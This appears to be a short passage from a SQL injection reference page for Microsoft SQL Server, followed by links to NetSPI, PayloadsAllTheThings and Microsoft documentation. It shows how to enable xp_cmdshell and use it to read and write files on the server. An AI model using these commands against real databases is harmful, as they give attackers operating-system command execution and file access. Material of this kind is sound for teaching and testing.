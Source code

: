 ```sql
-- To enable the feature.
EXECUTE sp_configure 'xp_cmdshell', 1;
GO
-- To update the currently configured value for this feature. RECONFIGURE;
RECONFIGURE;
GO
```
#### Reading files
```sql
EXEC xp_cmdshell 'type C:\file.txt'
```
#### Writing files
```sql
EXEC xp_cmdshell 'echo Your Text > C:\file.txt'

```

## References
- (NetSPI 2023 Error based injections) https://sqlwiki.netspi.com/injectionTypes/errorBased/
- (PostgreSQL injection) https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
- (Microsoft, 2021),[https://docs.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver15](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/set-operators-union-transact-sql?view=sql-server-ver15)